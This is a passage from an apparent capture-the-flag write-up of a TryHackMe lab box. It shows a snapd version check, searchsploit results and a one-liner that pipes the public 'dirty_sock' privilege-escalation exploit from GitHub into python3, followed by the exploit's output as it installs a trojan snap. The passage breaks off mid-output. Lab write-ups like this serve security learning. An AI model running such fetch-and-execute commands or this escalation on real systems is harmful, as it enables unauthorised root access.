 ## Dirty Sock

I worked through them in order, I had no luck with the first three. The fourth one called dirty_sock looked interesting, it exploits a vulnerability in snapd. There's two versions, the second one works on box by sideloading a new account. First check the version we have here:

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ snap version
snap    2.32.5+18.04
snapd   2.32.5+18.04
series  16
ubuntu  18.04
kernel  4.15.0-140-generic
```

The website doesn't mention the version of snapd this works against, but checking serchsploit we see it looks possible:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# searchsploit snapd                                                                                                                     
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation    | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation    | linux/local/46362.py
------------------------------------------------------------------- ---------------------------------
```

Let's try it by downloading and executing direct from GitHub:

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ wget -O - https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py | python3
--2021-04-27 13:56:55--  https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8696 (8.5K) [text/plain]
Saving to: 'STDOUT'
- 100%[=====================================================================================>]   8.49K  --.-KB/s    in 0s      

2021-04-27 13:56:55 (54.4 MB/s) - written to stdout [8696/8696]
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)
//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//

[+] Slipped dirty sock on random socket file: /tmp/ktmllpkbup;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
```